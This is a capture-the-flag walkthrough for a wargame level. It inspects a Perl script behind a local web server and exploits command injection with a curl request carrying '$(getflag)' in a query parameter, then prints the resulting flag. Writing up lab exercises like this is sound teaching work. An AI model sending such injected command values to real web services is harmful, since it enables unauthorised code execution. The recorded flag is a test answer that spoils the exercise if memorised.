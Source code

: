 # level04

We got some intel from level00:

```shell
dr-xr-x---  2 flag04 level04  33 Mar 12  2016 level04

/var/www/level04

/rofs/var/www/level04
```

1. examinate the perl file

```shell
cat level04.pl
```

seems to indicate that a server is running on localhost:4747

2. search for an apache webserver

```shell
service apache2 status
```

tells us that a webserver is probably running too

3. examinate the files located in /var/www/level04

```shell
cat /var/www/level04/level04.pl
```

shows the same level04.pl script as ~/level04.pl

4. examinate apache's config in /etc/apache2/sites-enabled/

```shell
cat /etc/apache2/sites-enabled/level05.conf
```

shows that the root of the webserv is containing level04.pl and that the process is running as flag04

5. test the webserver for command injection

```shell
curl localhost:4747?x=exploit
```

prints `exploit` in terminal meaning that we might inject some code

6. inject some code to pwn the flag

```shell
curl localhost:4747?x='$(getflag)'
```

gives flag: `ne2searoevaevoem4ov4ar8ap`
